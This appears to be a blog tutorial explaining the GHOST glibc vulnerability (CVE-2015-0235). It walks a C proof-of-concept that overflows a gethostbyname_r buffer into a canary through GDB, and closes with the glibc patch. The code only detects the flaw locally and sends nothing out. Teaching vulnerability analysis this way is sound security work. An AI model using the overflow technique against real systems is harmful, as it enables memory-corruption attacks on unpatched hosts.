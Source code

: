 ```yaml
---
layout: post
title: CVE-2015-0235 GHOST PoC Explained
category: Exploitation
tags: Exploitation, PoC
comments: true
---
```


In this post we will go over the GHOST PoC under a debugger. This will visually show how the buffer overflow condition is met.

{% highlight C  %}
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"

struct {
	char buffer[1024];
	char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };

int main(void) {
	struct hostent resbuf;
        struct hostent *result;
	int herrno;
	int retval;

	/*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
	size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
	char name[sizeof(temp.buffer)];
	memset(name, '0', len);
	name[len] = '\0';

	retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);

	if (strcmp(temp.canary, CANARY) != 0) {
		puts("vulnerable");
		exit(EXIT_SUCCESS);
	}
	if (retval == ERANGE) {
		puts("not vulnerable");
		exit(EXIT_SUCCESS);
	}
	puts("should not happen");
	exit(EXIT_FAILURE);
}
{% endhighlight %}
Let me explain some of the above code.
First we define a CANARY, "in_the_coal_mine". This is our overwrite target.
Next we define a struct, which consists of two chunks. These chunks represent a buffer that will be overflowed by the glibc gethostbyname_r function, and the data that comes after it (the CANARY).
The first chunk is named "buffer" and its size is 1024 bytes, which is the size that will be passed to gethostbyname_r via the "buflen" argument.
Following the "buffer" chunk is the CANARY chunk. By overflowing the "buffer" chunk into the CANARY chunk, we can confirm the PoC exploit works.
Now that we have defined our struct representing the buffer for gethostname_r, the name char array is being initialized with 999 bytes of ASCII ‘0’ / HEX 0x30.

>**name**  
>*The name of the Internet host whose entry you want to find.*  
>**result**  
>*A pointer to a struct hostent where the function can store the host entry.*  
>**buffer**  
>*A pointer to a buffer that the function can use during the operation to store host database entries; buffer should be large enough to hold all of the data associated with the host entry. A 2K buffer is usually more than enough; a 256-byte buffer is safe in most cases.*  
>**buflen**  
>*The length of the area pointed to by buffer.*  
>**h_errnop**  
>*A pointer to a location where the function can store an herrno value if an error occurs.*  

Now, let's see the binary under GDB debugger.

{% highlight bash  %}
$ gdb -q ./GHOST 
Reading symbols from /home/student/GHOST...done.
(gdb) break main
Breakpoint 1 at 0x80484a2: file ghost.c, line 14.
(gdb) set disassembly-flavor intel
(gdb) run
Starting program: /home/student/GHOST 

Breakpoint 1, main () at ghost.c:14
14int main(void) {
(gdb) disas
Dump of assembler code for function main:
   0x08048494 <+0>:push   ebp
   0x08048495 <+1>:mov    ebp,esp
   0x08048497 <+3>:push   edi
   0x08048498 <+4>:push   esi
   0x08048499 <+5>:and    esp,0xfffffff0
   0x0804849c <+8>:sub    esp,0x450
=> 0x080484a2 <+14>:mov    eax,gs:0x14
   0x080484a8 <+20>:mov    DWORD PTR [esp+0x44c],eax
   0x080484af <+27>:xor    eax,eax
   0x080484b1 <+29>:mov    DWORD PTR [esp+0x44],0x3e7
   0x080484b9 <+37>:mov    eax,DWORD PTR [esp+0x44]
   0x080484bd <+41>:mov    DWORD PTR [esp+0x8],eax
   0x080484c1 <+45>:mov    DWORD PTR [esp+0x4],0x30
   0x080484c9 <+53>:lea    eax,[esp+0x4c]
   0x080484cd <+57>:mov    DWORD PTR [esp],eax
   0x080484d0 <+60>:call   0x80483c0 <memset@plt>
   0x080484d5 <+65>:lea    eax,[esp+0x4c]
   0x080484d9 <+69>:add    eax,DWORD PTR [esp+0x44]
   0x080484dd <+73>:mov    BYTE PTR [eax],0x0
   0x080484e0 <+76>:lea    eax,[esp+0x4c]
   0x080484e4 <+80>:lea    edx,[esp+0x40]
   0x080484e8 <+84>:mov    DWORD PTR [esp+0x14],edx
   0x080484ec <+88>:lea    edx,[esp+0x3c]
   0x080484f0 <+92>:mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:lea    edx,[esp+0x28]
   0x08048508 <+116>:mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:mov    DWORD PTR [esp],eax
   0x0804850f <+123>:call   0x80483d0 <gethostbyname_r@plt>
   0x08048514 <+128>:mov    DWORD PTR [esp+0x48],eax
   0x08048518 <+132>:mov    edx,0x804a440
   0x0804851d <+137>:mov    eax,0x8048660
   0x08048522 <+142>:mov    ecx,0x11
   0x08048527 <+147>:mov    esi,edx
   0x08048529 <+149>:mov    edi,eax
   0x0804852b <+151>:repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb)
{% endhighlight %}
Lines 24-28, are where memset initializes name char array with 999 bytes of '0'. Line 31, name char array is being null terminated. Lines 36-41, is where the arguments for gethostbyname_r are being pushed to the stack, right to left. After the gethostbyname_r function, on lines 44-49 is where strcmp confirms if the CANARY has been modified or not.  
Let's set a breakpoint before the gethostbyname function and inspect the temp stuct.
{% highlight bash  %}
(gdb) break *main+123
Breakpoint 3 at 0x804850f: file ghost.c, line 25.
(gdb) c
Continuing.

Breakpoint 3, 0x0804850f in main () at ghost.c:25
25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
=> 0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
...
(gdb) print temp
$4 = {buffer = "buffer", '\000' <repeats 1017 times>, canary = "in_the_coal_mine"}
(gdb) 

(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 "buffer"
0x804a047 <temp+7>:	 ""
0x804a048 <temp+8>:	 ""
...
...
...
0x804a43d <temp+1021>:	 ""
0x804a43e <temp+1022>:	 ""
0x804a43f <temp+1023>:	 ""
0x804a440 <temp+1024>:	 "in_the_coal_mine"
{% endhighlight %}

As you can see, the content of temp is of two buffers named "buffer" and "canary". Content of Buffer is the name of the buffer "buffer" which is 6 bytes + 1017 bytes of '0' characters + null terminating byte = 1024 bytes. CANARY starts at memory location 0x804a440 or 1024 bytes within the temp struct, and it's content is as initialized "in_the_coal_mine".  
Now let's move 1 instruction down, past the gethostbyname_r function and inspect the temp struct again.
{% highlight bash  %}
(gdb) nexti
0x08048514	25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
Dump of assembler code for function main:
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
   0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
=> 0x08048514 <+128>:	mov    DWORD PTR [esp+0x48],eax
...
(gdb) print temp
$5 = {buffer = '\000' <repeats 16 times>, "@\240\004\b\000\000\000\000\000\000\000\000", '0' <repeats 996 times>, canary = "000\000he_coal_mine"}
(gdb) 
(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 ""
0x804a041 <temp+1>:	 ""
...
...
0x804a05c <temp+28>:	 '0' <repeats 200 times>...
0x804a124 <temp+228>:	 '0' <repeats 200 times>...
0x804a1ec <temp+428>:	 '0' <repeats 200 times>...
0x804a2b4 <temp+628>:	 '0' <repeats 200 times>...
0x804a37c <temp+828>:	 '0' <repeats 199 times>
0x804a444 <temp+1028>:	 "he_coal_mine"
{% endhighlight %}
What this shows us is that now, the temp.buffer is 1028 bytes. 4 bytes from temp.buffer chunk has overflowed into the temp.canary chunk. If we inspect the 0x804a440 address, which use to be the start of the CANARY chunk, we should see the overflowed bytes followed by terminating null char.

{% highlight bash  %}
(gdb) x/s 0x804a440
0x804a440 <temp+1024>:	 "000"
(gdb) 
{% endhighlight %}

## The patch
As noted by Qualys in their report, the vulnerable code in the function is in nss/digits_dots.c. The patch mainly consists of adding 4 bytes to the size_needed object.

{% highlight bash  %}
vi nss/digits_dots.c

From this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

To this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);
{% endhighlight %}

This adds the 4 missed bytes that cause the overflow from the first chunk to the next chunk. Now if we add this to the calculation of the "size_t len" from the above PoC code, instead of 999 bytes the name char array buffer will be 995 and the overflow will not work.

### Reference
* [Qualys report](https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.220525848.141431497.1428700623)
* [Stackoverflow](http://stackoverflow.com/questions/28258135/manually-patching-for-ghost-vulnerability-on-legacy-server)

